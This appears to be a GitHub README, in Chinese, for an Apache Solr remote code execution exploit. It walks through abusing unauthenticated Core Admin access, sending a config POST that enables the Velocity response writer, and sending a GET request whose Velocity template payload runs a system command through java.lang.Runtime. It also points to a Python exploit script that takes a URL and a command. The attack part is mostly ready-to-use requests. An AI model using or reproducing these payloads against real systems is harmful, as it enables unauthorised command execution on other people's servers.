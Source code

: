 # Apache Solr rce

### 复现过程

step1:
通过Solr未授权访问，访问Core Admin，获取Path
![Image](https://github.com/Eth4nHunt/Apache-Solr-RCE/blob/master/images/20191031164421.png)

step2:
修改配置
```
POST /solr/(第一步获取到的Path)/config HTTP/1.1
Host: ip:8983
User-Agent: xxx
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```
![Image](https://github.com/Eth4nHunt/Apache-Solr-RCE/blob/master/images/20191031165408.png)

step3:
执行命令
```
GET /solr/(第一步获取到的Path)/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: xxx:8983
User-Agent: xxx
```
![Image](https://github.com/Eth4nHunt/Apache-Solr-RCE/blob/master/images/20191031165755.png)

### python exp

使用方法：
python solr_rce.py url "command"
![Image](https://github.com/Eth4nHunt/Apache-Solr-RCE/blob/master/images/20191031170416.png)

### 参考

https://gist.githubusercontent.com/s00py/a1ba36a3689fa13759ff910e179fc133/raw/fae5e663ffac0e3996fd9dbb89438310719d347a/gistfile1.txt

https://mp.weixin.qq.com/s/_mwnPuvqBP945D3g-j8Hrw
